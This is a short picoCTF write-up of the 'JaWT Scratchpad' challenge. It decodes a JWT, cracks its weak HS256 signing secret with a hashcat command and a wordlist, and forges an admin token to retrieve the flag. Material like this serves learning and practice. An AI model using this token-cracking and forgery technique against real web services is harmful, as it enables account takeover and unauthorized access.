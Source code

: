 # JaWT Scratchpad

## Description

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

## Info 
On the home page wee can create a user and write some text. With the JWT token wee can loging and see what wee have writed. Wee need to get the `admin Token`.

## Links
- [[WebApp]]
- [[JWT Token]]

## Exploit

Wee got our JWT token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCJ9.IAu_YSHppFe8hXH_BSPb4OLJYGUi8wXqXdS0T33cKbA`

### Go to https://jwt.io
Wee see

#### Payload

Header:
```javascript
{
  "typ": "JWT",
  "alg": "HS256"
}
```

Payload:
```javascript
{
  "user": "test"
}
```

Signature:
```javascript
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  `secret_key`
)
```

#### Way to exploit
Change the user by `admin` but you can't have valid JWT without the `secret`

#### Crack the signature
Wee can use [[Hashcat]]
`hashcat -m 16500 jwt <path_wordlist>` => ilovepico

## Get Flag
Change the user with `admin` and write `ilovepico` for the keys. Change the JWT in browser, reaload and wee got the flag